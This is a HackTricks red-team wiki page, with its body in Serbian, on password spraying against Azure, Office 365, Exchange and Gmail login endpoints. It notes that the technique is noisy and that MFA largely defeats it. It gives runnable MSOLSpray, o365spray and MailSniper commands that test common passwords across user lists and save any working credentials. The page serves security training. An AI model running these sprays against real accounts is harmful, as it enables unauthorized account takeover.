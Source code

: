 # Az - Password Spraying

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Password Spray

U **Azure** ovo se može uraditi protiv **različitih API krajnjih tačaka** kao što su Azure AD Graph, Microsoft Graph, Office 365 Reporting webservice, itd.

Međutim, imajte na umu da je ova tehnika **veoma bučna** i Blue Team je može **lako uhvatiti**. Štaviše, **prinudna složenost lozinki** i korišćenje **MFA** mogu učiniti ovu tehniku prilično beskorisnom.

Možete izvršiti napad password spray koristeći [**MSOLSpray**](https://github.com/dafthack/MSOLSpray)
```powershell
. .\MSOLSpray\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\validemails.txt -Password Welcome2022! -Verbose
```
Ili sa [**o365spray**](https://github.com/0xZDH/o365spray)
```bash
python3 o365spray.py --spray -U validemails.txt -p 'Welcome2022!' --count 1 --lockout 1 --domain victim.com
```
Ili sa [**MailSniper**](https://github.com/dafthack/MailSniper)
```powershell
#OWA
Invoke-PasswordSprayOWA -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile owa-sprayed-creds.txt
#EWS
Invoke-PasswordSprayEWS -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile sprayed-ews-creds.txt
#Gmail
Invoke-PasswordSprayGmail -UserList .\userlist.txt -Password Fall2016 -Threads 15 -OutFile gmail-sprayed-creds.txt
```
{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
